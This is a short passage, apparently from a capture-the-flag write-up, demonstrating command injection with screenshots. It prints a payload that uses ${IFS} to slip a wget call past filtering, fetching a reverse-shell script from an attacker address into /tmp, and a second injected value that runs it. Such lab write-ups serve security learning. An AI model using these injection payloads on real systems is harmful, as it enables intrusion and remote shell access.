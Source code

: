 `;wget${IFS}http://10.10.14.7/revshell.sh${IFS}-P${IFS}/tmp;#`

![Untitled](img/Pasted%20image%2020231013173415.png)

Now, let's change the permissions of the file to make it executable:

![Untitled](img/Pasted%20image%2020231013173555.png)



And now, let's try to execute the script! `;/tmp/revshell.sh;#`

![Untitled](img/Pasted%20image%2020231013173623.png)
